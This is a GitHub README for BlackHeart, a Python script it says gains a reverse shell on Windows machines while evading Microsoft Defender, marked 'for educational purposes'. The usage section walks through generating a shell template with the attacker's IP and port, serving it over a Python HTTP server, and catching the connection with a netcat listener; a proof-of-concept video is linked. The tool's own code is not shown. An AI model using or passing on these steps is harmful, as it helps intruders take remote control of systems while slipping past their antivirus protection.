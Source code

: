 # BlackHeart
<img src="https://img.shields.io/badge/-Linux-black?style=for-the-badge&logo=Linux&logoColor=white"> <img src="https://img.shields.io/badge/-Python-black?style=for-the-badge&logo=python&logoColor=white"><br>

BlackHeart is a simple python script to demonstrate reverse shell gaining without Microsoft Defender restrictions. (FOR EDUCATIONAL PURPOSES!!)

# Setup
You can use simply the following command<br>
```bash
pip3 install -r requirements.txt
```

# Usage
- First of all you have to generate a template for your shell.
```bash
python3 blackheart.py --lhost YOUR_IP --lport YOUR_PORT
```

- Then you have to open a simple http server to serve your template.
```bash
python3 -m http.server
```

- And you need to open a listener port to listen incoming connections.
```bash
nc -lvp 4545
```

# PoC
https://user-images.githubusercontent.com/42123683/187213124-dfadfa31-2afe-4016-961a-eddea6726500.mp4
